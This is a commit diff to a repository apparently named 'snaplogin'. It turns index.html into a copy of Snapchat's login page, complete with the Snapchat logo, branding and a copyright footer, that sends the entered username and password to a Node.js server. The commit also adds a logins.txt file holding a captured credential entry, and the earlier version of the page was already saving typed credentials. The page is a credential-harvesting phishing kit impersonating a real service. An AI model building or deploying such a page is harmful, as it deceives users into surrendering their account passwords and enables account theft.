

Before and after one commit to sonu2002/snaplogin, a website: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Updated login system with frontend and backend

```diff
--- a/index.html
+++ b/index.html
@@ -3,108 +3,150 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Snapchat Login</title>
-    <script src="https://accounts.google.com/gsi/client" async defer></script>
+    <title>Login | Snapchat</title>
     <style>
-        :root {
-            --bg-color: #fffc00;
-            --text-color: #000;
-            --container-bg: white;
-            --button-bg: #fffc00;
-            --button-hover: #e6e600;
-            --google-bg: #4285F4;
-            --footer-text: #444;
+        /* Global Styles */
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+            font-family: Arial, sans-serif;
         }
-        .dark-mode {
-            --bg-color: #222;
-            --text-color: #fff;
-            --container-bg: #333;
-            --button-bg: #ffcc00;
-            --button-hover: #ffb700;
-            --footer-text: #bbb;
-        }
+
         body {
-            font-family: Arial, sans-serif;
-            background-color: var(--bg-color);
-            color: var(--text-color);
+            background-color: #FFFC00;
             display: flex;
             flex-direction: column;
+            align-items: center;
             justify-content: center;
+            min-height: 100vh;
+        }
+
+        /* Header */
+        .header {
+            width: 100%;
+            background: #000;
+            color: white;
+            padding: 15px 20px;
+            display: flex;
+            justify-content: space-between;
             align-items: center;
-            height: 100vh;
-            margin: 0;
-            transition: background 0.5s ease-in-out, color 0.5s ease-in-out;
+            position: fixed;
+            top: 0;
+            left: 0;
+            z-index: 1000;
         }
+
+        .header img {
+            height: 40px;
+        }
+
+        .header nav a {
+            color: white;
+            text-decoration: none;
+            margin: 0 15px;
+            font-size: 16px;
+        }
+
+        /* Login Container */
         .login-container {
-            background: var(--container-bg);
-            padding: 20px;
+            background: white;
+            padding: 30px;
             border-radius: 10px;
-            box-shadow: 0px 4px 10px rgba(0, 0, 0, 0.1);
+            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
             text-align: center;
-            width: 320px;
+            width: 100%;
+            max-width: 360px;
+            margin-top: 80px;
         }
-        h2 {
-            margin-bottom: 15px;
+
+        .login-container h2 {
+            margin-bottom: 20px;
+            color: #333;
         }
+
         .input-field {
             width: 100%;
             padding: 10px;
             margin: 10px 0;
             border: 1px solid #ccc;
             border-radius: 5px;
+            font-size: 16px;
         }
+
         .login-btn {
             width: 100%;
-            padding: 10px;
-            background-color: var(--button-bg);
+            padding: 12px;
+            background-color: #FFFC00;
             border: none;
             border-radius: 5px;
-            font-size: 16px;
+            font-size: 18px;
             cursor: pointer;
             margin-top: 10px;
+            transition: background 0.3s;
         }
+
         .login-btn:hover {
-            background-color: var(--button-hover);
+            background-color: #e6e600;
         }
-        .google-btn {
-            background-color: var(--google-bg);
+
+        /* Footer */
+        .footer {
+            width: 100%;
+            text-align: center;
+            padding: 15px;
+            position: fixed;
+            bottom: 0;
+            left: 0;
+            background: #000;
             color: white;
+            font-size: 14px;
+        }
+
+        .footer a {
+            color: yellow;
+            text-decoration: none;
+            margin: 0 10px;
+        }
+
+        /* Responsive */
+        @media (max-width: 480px) {
+            .login-container {
+                width: 90%;
+            }
+            .header nav {
+                display: none;
+            }
         }
     </style>
 </head>
 <body>
 
+    <!-- Header -->
+    <div class="header">
+        <img src="https://upload.wikimedia.org/wikipedia/en/thumb/c/c4/Snapchat_logo.svg/1920px-Snapchat_logo.svg.png" alt="Snapchat Logo">
+        <nav>
+            <a href="#">Home</a>
+            <a href="#">Support</a>
+            <a href="#">Sign Up</a>
+        </nav>
+    </div>
+
+    <!-- Login Box -->
     <div class="login-container">
-        <h2>Snapchat Login</h2>
-        <input type="text" id="username" class="input-field" placeholder="Username">
-        <input type="password" id="password" class="input-field" placeholder="Password">
-        <button class="login-btn" onclick="saveCredentials()">Login</button>
-        <button class="login-btn google-btn" onclick="authenticate()">Login with Google</button>
+        <h2>Login to Snapchat</h2>
+        <input type="text" id="username" class="input-field" placeholder="Username" required>
+        <input type="password" id="password" class="input-field" placeholder="Password" required>
+        <button class="login-btn" onclick="submitForm()">Login</button>
+    </div>
+
+    <!-- Footer -->
+    <div class="footer">
+        © 2025 Snapchat | <a href="#">Privacy Policy</a> | <a href="#">Terms</a>
     </div>
 
     <script>
-        let googleUser = null;
-
-        function authenticate() {
-            google.accounts.id.initialize({
-                client_id: "404742512626-36gu7pq72bgmdl1k5fq3r1cmqth76sak.apps.googleusercontent.com",
-                callback: handleCredentialResponse
-            });
-
-            google.accounts.id.prompt();
-        }
-
-        function handleCredentialResponse(response) {
-            console.log("Google Sign-In Response: ", response);
-            googleUser = response.credential;
-        }
-
-        function saveCredentials() {
-            if (!googleUser) {
-                alert("Please sign in with Google first!");
-                return;
-            }
-
+        function submitForm() {
             let username = document.getElementById("username").value;
             let password = document.getElementById("password").value;
 
@@ -113,9 +155,22 @@
                 return;
             }
 
-            console.log("Credentials Saved:", { username, password });
+            // Send data to Node.js server
+            fetch("http://localhost:3000/login", {
+                method: "POST",
+                headers: { "Content-Type": "application/json" },
+                body: JSON.stringify({ username, password })
+            })
+            .then(response => response.json())
+            .then(data => {
+                alert(data.message);
+            })
+            .catch(error => {
+                console.error("Error:", error);
+            });
         }
     </script>
 
+
 </body>
 </html>
--- /dev/null
+++ b/logins.txt
@@ -0,0 +1 @@
+Username: 123, Password: 123
```
Also changed, not shown: package.json (added, +20 -0 lines), server.js (added, +38 -0 lines), 1 other file.
